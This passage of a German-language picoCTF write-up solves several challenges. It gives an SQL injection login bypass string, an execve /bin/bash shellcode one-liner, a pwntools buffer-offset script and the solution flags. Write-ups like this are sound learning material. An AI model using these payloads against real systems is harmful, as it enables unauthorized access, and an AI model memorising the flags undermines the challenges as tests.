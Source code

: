 Hört sich nach einer SQL Injection an. Also kurz googeln wie das nochmal geht. Als Nutzername gibt man `admin` ein. Als Passwort dann `' or '1'='1' --`.

Lösung: picoCTF{s0m3_SQL_96ab211c}



# Binary Exploitation
## handy-shellcode
This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5 on the shell server. Source.

Auf shell-storm.org nach dem passenden Shellcode suchen. Dann mit `(python -c 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'; cat) | ./vuln` auf dem Server laufen lassen.

Lösung: picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}

## practice-run-1
You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this program to receive a flag.

Einfach das Programm ausführen!!

Lösung: picoCTF{g3t_r3adY_2_r3v3r53}

## Overflow0
This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. Source.

Nach rumprobieren haben 256 Zeichen gereicht.. Mal schauen woran das lag.

Lösung: picoCTF{3asY_P3a5y1fcf81f9}

## Overflow1
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de on the shell server. Source.

https://medium.com/@isharaabeythissa/buffer-overflow-1-picoctf-done-by-ishara-abeythissa-2f85025956f0 << der Anleitung folgen, dann klappt es.

tl.dr: Erst muss man den Buffer herausfinden. Dazu gibt man einfach viele 'A's ein. Wenn als Adresse 0x414141 zurückgegeben wird (was der Hexwert für das A ist), hat man das ziel erreicht. Die genaue länge findet man mit dem Programm heraus:

```
from pwn import *
import os
import subprocess

for i in range(1,512):
	data = cyclic(i)
	p = subprocess.Popen(['./vuln'], stdin=subprocess.PIPE)
	p.communicate(input=data)

	i = i + 1

```
Ist dann der Wert, der am Ende ausgegeben wird. Den entsprechenden ASCII Little Endian Wert findet man mit `num = cyclic_find(p32(0x61616174))`. Jetzt muss man noch das Zielprogramm laden, um die Stelle zu finden, in der die flag() Funktion aufgerufen wird >> 
```
```